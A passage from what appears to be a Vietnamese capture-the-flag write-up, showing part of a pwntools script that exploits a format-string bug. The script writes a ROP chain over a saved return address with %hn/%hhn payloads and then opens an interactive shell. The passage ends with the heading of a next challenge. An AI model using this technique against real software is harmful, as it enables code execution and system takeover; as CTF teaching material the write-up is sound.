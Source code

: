 ```cs

for i in range(len(build_rop_chain)):
    payload = f'%{(saved_rip & 0xffff)+i}c%25$hn'.encode()
    payload = payload.ljust(13,b'a')

    if build_rop_chain[i] == 0:
        payload1 = b'%55$hhn'
    else:
        payload1 = f'%{build_rop_chain[i]}c%55$hhn'.encode()
    p.sendline(payload + payload1)


payload_change_var = f'%{0x2}c%55$hn'.encode()
input()
p.sendlineafter(b'Professional',payload_change + payload_change_var)



p.interactive()
```

![here](/assets/images/shellfsb.png)

- ngoài ra cũng có 1 bài rất hay về fsb , mình sẽ để ở [here](https://hackmd.io/@kuvee/SkaBUl2rJl)

## Master_Formatter_v2 

### overview
